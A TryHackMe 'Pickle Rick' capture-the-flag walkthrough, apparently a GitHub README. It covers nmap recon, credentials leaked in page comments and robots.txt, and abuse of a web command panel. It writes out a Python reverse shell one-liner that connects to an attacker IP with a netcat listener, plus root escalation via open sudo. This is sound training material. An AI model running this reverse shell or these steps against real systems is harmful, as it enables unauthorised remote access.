# TryHackMe picklerick room walkthrough

## Step 1, Recon 
Command used: sudo nmap -sCV 10.10.17.255 -vv

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0eaba8073a9cb62acf6b39e4bd9a4838 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCt/Op+HObSeyJIURfjI5VLnOkRJpQ6WRAAgGA1gk+A5b1ccg8QyeUo8OXjXcxIKcHKvkKvnhtcAx+K3EJ6BTMvOkpObnG2zTD8efpbTUq0D4Er8G/qBJa5zXjlOfFW8u+bLQhG2TMsdIeVzV+m3oiOIyWkaAlODmkQYtULQE/nInP9utJfYEFAGReNmEiCB7bFBYzheU+7arSXN9rTPzGwtkIv9pzyhKqkvojAGaIXyT/xVuSX59SgAuQc96ibRxuEO3n/O1/kHTRXz3iiZMr/5lxx9TJMpnC4SFQlDXIjejgslqoY5K0FqD5n4/W/CUZJjJY/eywh1fntP9XEXRQr
|   256 2f0708ed21255250e549396fdc4acf48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBdCRR1bRZH+jg804vKOO0ch+sodX47r7FpkC9kbedHmLn5saVQbvNhwyeMRC+n6z8KiRCENxCvy2tYy6wOfgzs=
|   256 ef4c6a2ee721418cb0ff51cdba07e877 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJbjyAIEhQHoJmKZDGeLX2EnPWGdesHUSF2CgWg0XDsF
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
By visiting the webpage. I got the following


While poking around in the source code of the index webpage, I have found a html comment which tells us the username of the login page (I have redacted the username)


```
<!--

Note to self, remember username!

Username: ██████████████

-->
```

Afterwards, while taking a look at the robots.txt file, I got a strange message



While it looks like nonsense at first, it looked like a password, so I decided to try it in the login page.



By trying to login with the found username and the strange text in the robots.txt file, we are in!



## Step 2, Exploiting

The first thing we will see will be the a text box that seemingly allow us to enter commands and the server will execute it. I tried to get the directory listing



However, while trying to read the file with cat, I got this



Same with head



But then... I tested less, and I got no errors!



And by doing so, we got the the first ingredient!



While making sure that I have not left anything behind, I have found base64 encoded text in command panel source:
`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`
	
When decoded, it reads "rabbit hole", which meant nothing in this case. Nice troll :smiley:

Now, we are going to try and get a reverse shell with python.

Setting up Netcat handler



Command used

```nc -lvnp 1852```

Setting up reverse shell



Command used

```export RHOST="10.18.16.11";export RPORT=1852;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```

...and we caught the shell!



Next up, we will have to stabilize the shell

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
ctrl+Z
stty raw -echo;fg
```	

And with that, we can now kill processes without the fear of killing our reverse shell



Now, we have to find the second ingredient. While looking around for possible locations, I found it in the /home/rick directory



Only one ingredient left!

## Step 3, privilege escalation

To get the final ingredient, we will have to escalate our privileges, and with `sudo -l`, we found out that we can run any commands with sudo!



Checking the /root directory, I have found our third and last ingredient


<br>

# Please star this repository if you found this helpful, thanks!